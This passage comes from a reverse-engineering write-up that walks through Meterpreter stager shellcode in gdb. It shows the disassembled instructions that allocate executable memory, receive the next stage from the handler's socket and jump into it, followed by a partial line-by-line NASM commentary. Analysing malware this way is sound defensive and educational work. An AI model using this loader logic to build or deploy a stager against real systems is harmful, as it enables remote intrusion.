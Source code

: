 We now know that the shellcode expects **126 **bytes of data from the meterpreter handler after the initial connection.

The instructions run after the syscall `recvfrom` are the following:

```bash
(gdb) x/100i $pc
# => 0x7ffff7ff8000:      push   rdi
#    0x7ffff7ff8001:      xor    rdi,rdi
#    0x7ffff7ff8004:      mov    rsi,0x2df7c4
#    0x7ffff7ff800b:      mov    rdx,0x7
#    0x7ffff7ff8012:      mov    r10,0x22
#    0x7ffff7ff8019:      xor    r8,r8
#    0x7ffff7ff801c:      xor    r9,r9
#    0x7ffff7ff801f:      mov    rax,0x9
#    0x7ffff7ff8026:      syscall

#    0x7ffff7ff8028:      mov    rdx,rsi
#    0x7ffff7ff802b:      mov    rsi,rax
#    0x7ffff7ff802e:      pop    rdi
#    0x7ffff7ff802f:      mov    r10,0x100
#    0x7ffff7ff8036:      xor    r8,r8
#    0x7ffff7ff8039:      xor    r9,r9
#    0x7ffff7ff803c:      mov    rax,0x2d
#    0x7ffff7ff8043:      syscall

#    0x7ffff7ff8045:      and    rsp,0xfffffffffffffff0
#    0x7ffff7ff8049:      add    sp,0x50
#    0x7ffff7ff804d:      mov    rax,0x6d
#    0x7ffff7ff8054:      push   rax
#    0x7ffff7ff8055:      mov    rcx,rsp
#    0x7ffff7ff8058:      xor    rbx,rbx
#    0x7ffff7ff805b:      push   rbx
#    0x7ffff7ff805c:      push   rbx
#    0x7ffff7ff805d:      push   rsi
#    0x7ffff7ff805e:      mov    rax,0x7
#    0x7ffff7ff8065:      push   rax
#    0x7ffff7ff8066:      push   rbx
#    0x7ffff7ff8067:      push   rbx
#    0x7ffff7ff8068:      push   rdi
#    0x7ffff7ff8069:      push   rcx
#    0x7ffff7ff806a:      mov    rax,0x2
#    0x7ffff7ff8071:      push   rax
#    0x7ffff7ff8072:      mov    rax,0x8d55
#    0x7ffff7ff8079:      add    rsi,rax
#    0x7ffff7ff807c:      jmp    rsi
```

Below is the analysis of the first block.

```nasm
; store the file descriptor of the socket on the stack
push   rdi

; clear RDI
xor    rdi,rdi

; set some registers:
; - RSI = 3012548
; - RDX = 7
; - R10 = 34
mov    rsi,0x2df7c4
mov    rdx,0x7
mov    r10,0x22

; clear R8 and R9
```